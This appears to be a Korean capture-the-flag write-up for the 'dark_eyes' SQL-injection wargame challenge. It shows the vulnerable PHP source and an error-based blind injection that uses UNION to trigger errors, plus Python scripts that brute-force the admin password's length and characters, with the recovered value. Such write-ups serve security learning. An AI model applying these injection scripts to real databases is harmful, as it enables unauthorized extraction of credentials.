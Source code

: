 # dark_eyes

## 1. Code
```php
<?php
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- `col if case when sleep benchmark`를 필터링한다.
- 에러 발생시, 빈화면을 리다이렉트 시킨다.   

## 3. Solution
먼저 공격 쿼리를 설계해 보았다.   

변수명 | 값
---|---
`pw` | 1234' or (SELECT 1 UNION SELECT `조건문`)#   

`UNION`을 이용할것인데, 참과 거짓을 나누는 원리는 다음과 같다.   

참 : 서브 쿼리속 조건문이 참 일 경우, `UNION`에 의해 1만이 전달된다(참 == 1).
거짓 : 거짓일 경우, 1와 거짓이 `UNION`되어, 두개의 rows를 반환시킨다. &rarr; 오류가 발생한다.   



#### a. 길이 구하기
>    `length`함수를 이용하여 길이를 구하였다.   

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,101):
    url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php?\
            pw=1234' or id='admin' and (SELECT 1 UNION SELECT length(pw)=%d)%%23" % i
    res = requests.get(url, cookies=cookie)
    
    if not (res.text == ""):
        pw_len = i
        print("Length of pw : %d" % i)
        break
```   

>    실행 결과는 다음과 같다.   

```
Length of pw : 8
```   


#### b. 값 구하기
>    `ascii`와 `substr`함수를 이용하였다.
    `a. 길이 구하기`의 코드 뒤에 붙여 주었다.   
    
```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,101):
    url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php?\
            pw=1234' or id='admin' and (SELECT 1 UNION SELECT length(pw)=%d)%%23" % i
    res = requests.get(url, cookies=cookie)
    
    if not (res.text == ""):
        pw_len = i
        print("Length of pw : %d" % i)
        break
        
pw_value = ""
for i in range(pw_len):
    for j in range(33,127):
        url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php?\
            pw=1234' or id='admin' and (SELECT 1 UNION SELECT ascii(substr(pw,%d,1))=%d)%%23" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if res.text:
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
```   

>    실행 결과는 다음과 같다.   

```
Length of pw : 8
pw(1) : 5
pw(2) : 5a
pw(3) : 5a2
pw(4) : 5a2f
pw(5) : 5a2f5
pw(6) : 5a2f5d
pw(7) : 5a2f5d3
pw(8) : 5a2f5d3c
```   

나온 pw 값을 최종적으로 대입해 보면 문제가 해결된다.   
변수명 | 값
---|---
`pw` | 5a2f5d3c